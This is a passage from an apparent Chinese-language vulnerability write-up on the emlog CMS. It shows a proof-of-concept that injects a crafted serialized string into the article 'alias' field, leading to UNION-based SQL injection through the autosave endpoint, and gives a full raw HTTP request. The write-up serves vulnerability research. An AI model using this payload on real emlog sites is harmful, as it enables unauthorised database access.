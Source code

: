 ![image-20231127165335177](assets/1702521318-eca3f67bec0cf48987301483430ac6da.jpg)

这里在新建两篇文章的时候，抓包在响应包中可以看到对应的文章id，分别是1，2。

![image-20231127165016723](assets/1702521318-189c4d3c1e170c1bee25af4c347e6b08.jpg)

新建文章后分别发送poc：

先修改id为2的blog，设置alias=";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x：

```php
POST /emlog/admin/article_save.php?action=autosave HTTP/1.1
Host: localhost
Content-Length: 156
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: localhost
Referer: http://localhost/emlog/admin/article.php?action=write
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7grsstsv9fpp445046hr5qg91b; EM_AUTHCOOKIE_2VFlOu2HqXVBqJserIAh2tEXKh3zj5lf=111113%40qq.com%7C0%7C9cd3b0393151a659948c6af2cccd4bd1; EM_AUTHCOOKIE_E20hbPXCTXVX1dnkOeAmbWosM5xrnclU=111111%40qq.com%7C0%7Cb6e5886576488db453b65b8387b7cf37; em_saveLastTime=1701075174154
Connection: close

logcontent=111111&logexcerpt=11111111&title=new1&alias=a";i:4;s:1:"x&postdate=2023-10-13+20:32:18&token=3a43014ba94a7ab75c5e897787da1fa757b502e8&as_logid=10
```
